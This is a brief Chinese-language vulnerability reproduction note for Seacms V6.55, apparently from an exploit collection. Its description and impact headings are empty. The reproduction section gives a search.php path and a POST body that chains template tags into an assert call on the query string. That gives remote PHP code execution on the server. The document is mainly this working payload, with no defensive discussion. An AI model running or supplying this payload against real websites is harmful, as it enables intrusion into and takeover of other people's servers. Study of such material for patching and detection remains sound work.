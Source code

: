 ```yaml
---
title: "Seacms V6.55"
id: zhfly3116
---
```


# Seacms V6.55 命令执行漏洞

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

> path:

```
http://0-sec.org/search.php 
```

> POST:

```
searchtype=5&searchword={if{searchpage:year}&year=:as{searchpage:area}}&area=s{searchpage:letter}&letter=ert{searchpage:lang}&yuyan=($_SE{searchpage:jq}&jq=RVER{searchpage:ver}&&ver=[QUERY_STRING]));/* 
```